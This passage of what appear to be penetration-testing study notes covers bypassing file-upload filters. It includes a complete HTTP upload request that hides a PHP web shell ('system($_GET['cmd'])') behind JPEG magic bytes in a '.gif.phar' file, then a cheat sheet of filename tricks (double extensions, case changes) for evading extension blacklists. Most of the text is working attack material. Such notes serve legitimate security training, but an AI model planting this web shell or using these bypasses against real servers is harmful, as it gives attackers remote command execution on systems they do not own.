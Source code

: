 
## Magic number

Some applications inspect the first few bytes of the file's content, which contains the file signature or Magic bytes:

- if a file starts with (`GIF87a` or `GIF89a`), this indicates that it is a `GIF` image

So a technique for bypassing this restriction is leaving those first bytes in the upload request. Example:


```
POST /upload.php HTTP/1.1
Host: 94.237.55.28:30732
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------363913493316563598061512274268
Content-Length: 344
Origin: http://94.237.55.28:30732
Connection: keep-alive
Referer: http://94.237.55.28:30732/

-----------------------------363913493316563598061512274268
Content-Disposition: form-data; name="uploadFile"; filename="mala.gif.phar"
Content-Type: image/jpeg

ÿØÿà JFIF  ` `  ÿþ ;CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 75
<?php system($_GET['cmd']);?>	

-----------------------------363913493316563598061512274268--
```


## Cheat sheet for php 

Source: [Repo from imran-parray](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/File-Upload-test.txt)
OWASP deep explanation: [link](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

```
# try to upload a simple php file
upload.php 

# To bypass the blacklist.
upload.php.jpeg 

# To bypass the blacklist.
upload.jpg.php
#  and Then Change the content type of the file to image or jpeg.
upload.php 

# version - 1 2 3 4 5 6 7
upload.php*

# To bypass a BlackList
upload.PHP 
upload.PhP 
upload.pHp 


```